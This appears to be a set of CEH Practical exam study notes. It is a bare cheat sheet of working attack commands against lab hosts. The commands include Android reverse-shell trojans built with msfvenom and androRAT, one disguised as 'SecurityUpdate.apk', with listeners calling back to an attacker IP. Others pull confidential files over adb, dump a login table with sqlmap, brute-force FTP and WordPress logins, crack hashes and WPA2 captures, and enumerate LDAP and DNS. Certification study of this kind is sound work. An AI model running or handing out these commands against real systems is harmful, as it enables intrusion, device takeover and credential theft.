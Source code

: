# **CEH Practical Notes**

Geolocation BillCipher

```
nmap --script vuln xx.xx.xx.xx
```

```
ldapsearch -h 10.10.10.25 -x -s base namingcontexts
ldapsearch -h 10.10.10.25 -x -b "cn=users,dc=CEHORG,dc=COM" "(objectclass=user)" | grep dn 
ldapsearch -x -b "dc=cehorg,dc=com" "*" -h 10.10.10.25 | awk '/dn: / {print $2}' 
```

dig AXFR yourdomain.com @ns


FQDN/Netbios name	nmap -p 445 --script smb-os-discovery 10.10.10.25 or nmap -T4 -p 445 -sC 10.10.10.25

DNS Computer Name	3389

SMB Message signing	nmap -T4 -p 445 -sC 10.10.10.25

whatweb www.certifiedhacker.com

```
john --format=NT hashes.txt
john --show --format=NT
```

```
cd Desktop/CEHtab13
cd Wordlist
hydra -L Usernames.txt -P Passwords.txt ftp://172.16.0.12
```

**Wireshark filters** 
```
http.request.method==POST
tcp.flags.syn == 1 and tcp.flags.ack == 0  Statistics=>Ipv4 Statistics=>Source and Destination Addresses
tcp.flags.syn == 1 DoS 
tcp.srcport == 8888 and tcp.dstport == 9999
```
```
snow.exe -C -p password Confidential.txt
```

```
apt install nfs-common
showmount -e 172.16.0.11
mkdir -p /mnt/linux
mount -t nfs 172.16.0.11:/home /mnt/linux
ls -l /mnt/linux
```

PhoneSploit
4 - shell

9 - copy file /storage/self/primary/DCIM/capture.png or /sdcard/Download/confidential.txt

```
adb connect 172.16.0.21 5555
adb shell
adb pull /sdcard/Documents/confidential.txt
```
```
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk 

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 10.10.1.13
exploit -j -z 

```
```
python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk 
python3 androRAT.py --shell -i 0.0.0.0 -p 4444 
```
```
https://www.sisik.eu/apk-tool
```
yersinia F2 x 1 q ==>Wireshark Transaction ID 0x643c9869

```
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --dbs
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope --tables
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope -T User_Login --dump
```

wpscan -U adam -P password.txt --url http://cehorg.com
```
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 80
set TARGETURI http://cehorg.com
set USERNAME adam
set ENUMERATE_USERNAMES false
set verbose false
run
```
```
aircrack-ng WEP.pcap
aircrack-ng -a2 -w passwords.txt WPA2.pcap
```
 

